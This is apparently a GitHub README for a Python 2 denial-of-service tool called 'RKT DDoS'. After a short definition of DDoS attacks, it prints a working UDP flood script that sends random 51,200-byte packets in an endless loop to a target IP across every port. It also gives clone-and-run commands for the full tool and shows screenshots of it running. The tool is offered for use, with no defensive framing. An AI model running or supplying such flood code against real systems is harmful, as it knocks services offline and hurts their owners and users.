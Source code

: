 [![MIT](https://img.shields.io/packagist/l/doctrine/orm.svg)](https://github.com/r3k4t/rktddos/blob/master/LICENSE) 
[![python](https://img.shields.io/badge/python-2.7-brightgreen.svg)](https://www.python.org/download/releases/2.7/)


<h2>RKT DDoS</h2>

<h4>Author : RKT</h4>

### Descripton ###

![DDOS Attack-compressed](https://user-images.githubusercontent.com/69615463/96414395-b0326e00-120a-11eb-832a-a66f32b6f2dd.jpg)


### DDos(Distributed Denial-Of-Service) ###

A distributed denial-of-service (DDoS) attack is a malicious attempt to disrupt the normal traffic of a targeted server, service or network by overwhelming the target or its surrounding infrastructure with a flood of Internet traffic.

DDoS attacks achieve effectiveness by utilizing multiple compromised computer systems as sources of attack traffic. Exploited machines can include computers and other networked resources such as IoT devices.

From a high level, a DDoS attack is like an unexpected traffic jam clogging up the highway, preventing regular traffic from arriving at its destination.


### Python DDoS Code(Basic) ###

>>>import socket
<br>
>>>import random
<br>
>>>rkt = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
<br>
>>>bytes = random._urandom(51200)
<br>
>>>ip   = "127.0.0.1"
<br>
>>>port = 80
<br>
>>>sent = 0
<br>
>>>while True:
      <br>
>>> ...  rkt.sendto(bytes,(ip,port))
       <br>
>>> ...  sent = sent + 1
       <br>
>>> ...  port = port + 1
       <br>
>>> ...  print "SENT %s PACKET TO %s THROUGHT PORT:%s" % (sent,ip,port)
       <br>
>>> ...  if port == 65535:
       <br>   
>>> ...   port = 1
  

#### Tested On ###

<ul>
<li>Ubuntu</li>
<li>Kali Linux</li>
<li>Linuxmint</li>
<li>Parrot Os</li>
</ul>


### Setup ###

<ul>
<li>sudo pip2 install requirements.txt</li>
</ul> 

### Terminal Command ###

<ul>
<li>git clone https://github.com/r3k4t/rktddos.git</li>
<li>cd   rktddos          </li>
<li>sudo python2 rktddos.py</li>
</ul>

### Screentshots ###

![Screenshot at 2020-10-19 12-54-05](https://user-images.githubusercontent.com/69615463/96414279-8aa56480-120a-11eb-82c0-4833bd7dba4a.png)

Next

![Screenshot at 2020-10-19 12-54-22](https://user-images.githubusercontent.com/69615463/96414316-96912680-120a-11eb-8e82-7b68da167f4c.png)


Next


![Screenshot at 2020-10-19 12-54-27](https://user-images.githubusercontent.com/69615463/96414350-a14bbb80-120a-11eb-8a39-368429a790ef.png)







